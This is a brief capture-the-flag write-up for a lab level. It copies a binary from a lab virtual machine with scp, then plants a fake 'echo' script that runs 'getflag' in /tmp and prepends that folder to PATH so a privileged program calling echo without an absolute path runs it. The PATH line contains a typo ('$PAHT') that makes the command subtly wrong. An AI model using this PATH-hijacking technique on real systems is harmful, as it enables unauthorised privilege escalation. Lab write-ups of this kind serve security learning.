 # Download file and inspect the code with Ghidra
`scp -P 4242 level01@192.168.56.102:level03 .`

# Exploit call to echo with no absolut path by creating or custom script
```bash
mkdir /tmp/lol
cat > /tmp/lol/echo
#!/bin/bash
getflag
<ctrl + D>
chmod 777 /tmp/lol/echo
export PATH="/tmp/lol:$PAHT"
```

# Get the flag
`./level01`
